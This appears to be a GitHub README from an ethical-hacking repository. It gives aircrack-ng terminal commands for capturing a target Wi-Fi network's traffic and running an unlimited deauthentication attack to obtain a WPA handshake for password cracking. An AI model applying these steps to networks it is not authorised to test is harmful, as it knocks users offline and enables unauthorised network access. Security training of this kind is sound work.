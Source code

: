 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon


<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/4b917857-302b-4641-9302-cde9918ce22b">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/557ef884-d527-40d1-91ef-48d815da9082">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)

After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://user-images.githubusercontent.com/103558082/235842315-384ce725-cbed-4a4f-a321-c7e3e1ecccd4.png">
<img src="https://user-images.githubusercontent.com/103558082/235842319-ddfe5f7d-5351-46de-bf20-f35a106237e4.png">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake

